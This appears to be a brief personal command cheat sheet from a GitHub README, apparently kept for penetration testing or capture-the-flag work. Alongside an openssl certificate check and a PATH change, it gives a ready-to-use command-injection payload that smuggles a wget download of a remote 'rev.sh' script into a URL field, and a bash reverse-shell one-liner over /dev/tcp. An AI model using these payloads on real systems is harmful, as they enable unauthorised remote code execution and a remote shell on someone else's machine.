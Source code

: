 # LifeLongCommands
All command needed to be noted

# Certificate Check
openssl s_client -showcerts -connect $ip:$port

# Binary Execution Path changing 
```bash
export PATH=/home/somedirectory:$PATH
```
# Command injection
yt_url=;wget${IFS}http://10.4.39.84:8000/rev.sh;

# Reverse Shell cheatsheet
bash -i >& /dev/tcp/$myip/9999 0>&1

